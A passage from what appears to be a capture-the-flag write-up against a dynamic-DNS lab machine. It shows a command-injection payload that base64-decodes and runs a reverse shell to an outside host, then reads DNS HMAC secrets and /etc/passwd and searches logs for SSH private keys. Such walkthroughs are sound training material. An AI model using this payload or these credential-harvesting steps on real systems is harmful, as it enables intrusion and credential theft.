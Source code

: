 ```php
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```

So in essence my payload for triggering:

```bash
echo "some query string"|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40Lzk5OTkgMD4mMQ==|base64 -d|bash;
```

And `echo a |echo b` just returns "b".

## Getting user

The key for nsupdate might come in handy:

```bash
cat /etc/bind/ddns.key
# key "ddns-key" {
#     algorithm hmac-sha256;
#     secret "K8VF/NCIy5K4494l2w09Kib7oEcjdjdF7m4dXSI8vhI=";
# };
cat /etc/bind/infra.key
# key "infra-key" {
#     algorithm hmac-sha256;
#     secret "7qHH/eYXorN2ZNUM1dpLie5BmVstOw55LgEeacJZsao=";
# };
hashcat --help |grep -ia 'hmac'
# 1450 | HMAC-SHA256 (key = $pass)                           | Raw Hash, Authenticated
# 1460 | HMAC-SHA256 (key = $salt)                           | Raw Hash, Authenticated
```

But my cracking box is not available, let's keep browsing:

```bash
cat /etc/passwd | grep -v nologin
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# dyna:x:1000:1000:dyna,,,:/home/dyna:/bin/bash
# bindmgr:x:1001:1001::/home/bindmgr:/bin/bash
```

The user flag is in `home/bindmgr`, this is the way to go. It has some juicy logs:

```bash
ls /home/bindmgr/support-case-C62796521/
# total 436K
# drwxr-xr-x 2 bindmgr bindmgr 4.0K Mar 13  2021 .
# drwxr-xr-x 5 bindmgr bindmgr 4.0K Mar 15  2021 ..
# -rw-r--r-- 1 bindmgr bindmgr 232K Mar 13  2021 C62796521-debugging.script
# -rw-r--r-- 1 bindmgr bindmgr  29K Mar 13  2021 C62796521-debugging.timing
# -rw-r--r-- 1 bindmgr bindmgr 1.2K Mar 13  2021 command-output-C62796521.txt
# -rw-r--r-- 1 bindmgr bindmgr 160K Mar 13  2021 strace-C62796521.txt
grep -ria key /home/bindmgr/support-case-C62796521/
# 15123 write(2, "Using SSH public key file '/home/bindmgr/.ssh/id_rsa.pub'\n", 58) = 58
# 15123 write(2, "Using SSH private key file '/home/bindmgr/.ssh/id_rsa'\n", 55) = 55
```